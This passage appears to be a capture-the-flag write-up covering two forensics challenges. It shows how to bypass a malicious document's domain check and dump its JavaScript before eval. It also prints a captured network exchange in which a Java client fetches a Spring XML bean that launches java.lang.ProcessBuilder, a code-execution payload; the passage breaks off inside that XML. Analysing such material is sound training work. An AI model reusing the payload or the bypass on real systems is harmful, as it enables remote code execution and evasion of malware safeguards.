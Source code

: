 ![](https://i.imgur.com/pmMXx2Y.png)

- Finally it runs clean up and deletes `mailform.js`
- First we can modify the domain check to bypass that condition
    ```
    chkDomain = "GAMEMASTERS.local"
    strUserDomain = Environ$("UserDomain") <-- original
    strUserDomain = "GAMEMASTERS.local"    <-- simply replace it with the domain
    If chkDomain <> strUserDomain Then
    ```
- In the `mailform.js` file we can add one extra statement to print the output of the function just before it hits `eval` as highlighted below :


![](https://i.imgur.com/8PPfPGU.png)



- Now we can use `csript` which is a CMD alternative of `wscript` to read the output it will print : 


![](https://i.imgur.com/WasZ239.png)

- In the noise we can see a `cookie`  being sent with a base64 string

```
> echo "SFRCe200bGQwY3NfNHIzX2czdHQxbmdfVHIxY2tpMTNyfQo=" | base64 -d
> HTB{m4ld0cs_4r3_g3tt1ng_Tr1cki13r}
```

---

## Data Siege
> Solved by : thewhiteh4t

```
We need to understand which data has been obtained from this attack to reclaim control of the and communication backbone. Note: flag is splitted in three parts.
```

- We need to look for exfiltrated data
- flag is split in three parts
- We have a PCAP file
- After analysis we can find an interesting frame :

```xml
    GET /nBISC4YJKs7j4I HTTP/1.1
    Cache-Control: no-cache
    Pragma: no-cache
    User-Agent: Java/11.0.19
    Host: 10.10.10.21:8080
    Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
    Connection: keep-alive
    
    HTTP/1.1 200 OK
    Content-Type: application/xml
    Connection: Keep-Alive
    Pragma: no-cache
    Server: Apache
    Content-Length: 651
    
    <?xml version="1.0" encoding="UTF-8"?>
    <beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="WHgLtpJX" class="java.lang.ProcessBuilder" init-method="start">
      <constructor-arg>
```